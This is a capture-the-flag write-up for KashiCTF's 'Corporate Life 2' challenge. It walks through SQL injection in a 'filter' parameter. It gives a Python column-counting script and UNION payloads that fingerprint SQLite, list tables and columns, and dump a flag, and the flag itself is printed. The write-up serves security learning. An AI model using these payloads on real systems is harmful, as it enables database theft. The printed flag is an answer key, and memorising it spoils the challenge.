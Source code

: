 # Corporate Life 2 (261 pts)

![CorporateLife2](img/corporatelife2.png)

Similar to the **Corporate Life 1** challenge, there is an endpoint called `/v2-testing`, which also contains **SQL Injection** at `/api/list-v2` in the `filter` param

However, this time, there is no flag when I tried `'OR 1=1;--` (- -)

![nothing](corporatelife2-nothing.png)

Based on the challenge description, the flag is hidden in the database, so now my goal is to dump all the data from it

Initially, I thought about using `sqlmap` to scan, but for some reason, it doesn't work :(

So first, let's detect how many columns in this

I started with `'UNION SELECT NULL;--` but I got `{"error":"Internal Server Error: Database communication failed"}`, so I increase to `'UNION SELECT NULL, NULL;--` and continue until no more errors

To speed up, I wrote a script to find the number of columns

```python
#!/usr/bin/python3

import requests

url = "http://kashictf.iitbhucybersec.in:44010/api/list-v2"
headers = {"Content-Type": "application/json"}
payload = "'UNION SELECT NULL"

while True:
    payload += ";--"
    print(payload)
    json_data = {"filter": payload}
    res = requests.post(url, headers=headers, json=json_data).text
    if "Internal Server Error" not in res:
        print(res)
        break
    payload = payload.rstrip(";--") + ",NULL"
```

![6columns](corporatelife2-6-columns.png)

Okay, so there are 6 columns

To determine the database type, after some ~~Google~~ research, I found some methods to check database versions such as `@@version, version(), sqlite_version()`

I just checked all of them and found that this is `SQLite`

```sql
0'UNION SELECT sqlite_version(), NULL, NULL, NULL, NULL, NULL;--
```

![sqlite](corporatelife2-sqlite.png)


Now, I needed to dump all the tables in the database so:

```sql
0'UNION SELECT name, NULL, NULL, NULL, NULL, NULL FROM sqlite_master WHERE type='table';--
```

After this query, I found 2 tables is `flags` and `requests`

![tables](corporatelife2-tables.png)

Obviously, I focused on `flags` table, and the next step is to find its columns

```sql
0'UNION SELECT name, NULL, NULL, NULL, NULL, NULL FROM pragma_table_info('flags');--
```

![tablecolumns](corporatelife2-table-columns.png)

Now I know the `secret_flag` column. And finally, I got the flag with the following query:

```sql
0'UNION SELECT secret_flag, NULL, NULL, NULL, NULL, NULL FROM flags;--
```

The flags were not in order, but after a few swaps I got the correct flag hehe

`Flag: KashiCTF{b0r1ng_old_c0rp0_l1f3_am_1_r1gh7_koegjgE5}`
